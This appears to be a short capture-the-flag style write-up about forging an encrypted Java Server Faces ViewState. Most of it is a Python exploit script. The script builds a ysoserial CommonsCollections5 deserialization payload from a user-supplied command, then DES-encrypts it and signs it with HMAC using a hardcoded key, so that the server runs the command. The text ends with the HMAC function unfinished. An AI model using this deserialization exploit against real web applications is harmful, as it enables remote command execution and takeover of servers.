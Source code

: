 ![chie](chie.PNG)

viewstate is encrypted & encoded on top of that it has a hash it uses to verify it hasn't been changed. the cipher used is single des by default( DEFAULT). Then a hash is taken of the encrypted string. All of that is bundled by encoding everything in base64. So to decrypt everything used python module crypto & some other modules but they are pretty common i suppose. i had some trouble getting everything right so i used allot of prints to get the right, output. for more example at the test script go to my notes. 

the hmac takes up 20 bytes at the end. Ysoserial encryption type or whatever CommonsCollections5 

i made a bunch of methods that i call at the end to assemble it int he order i want. 

```
#from Crypto.Util.Padding import pad, unpad
from Crypto.Cipher import DES
from Crypto.Hash import HMAC, SHA1
import base64
import subprocess
import urllib

command = raw_input('Command: ')
ysoserial = b'java -jar /opt/ysoserial/ysoserial.jar CommonsCollections5 \'' + command + '\''
payload = subprocess.check_output(ysoserial, stderr=subprocess.STDOUT, shell=True)

def decrypt_vs(data):
    key = 'JsF9876-'
    mode = DES.MODE_ECB
    cipher = DES.new(key, mode)
    return cipher.decrypt(data)
def encrypt_vs(data):
    key = 'JsF9876-'
    mode = DES.MODE_ECB
    cipher = DES.new(key, mode)
    pad = (8 - (len(data) % 8)) % 8
    padded = data + (chr(pad)*pad).encode()
    return cipher.encrypt(padded)
def hmac_vs(data):
    key = 'JsF9876-'
    mode = digestmod=SHA1
    h = HMAC.new(key, data, mode)
```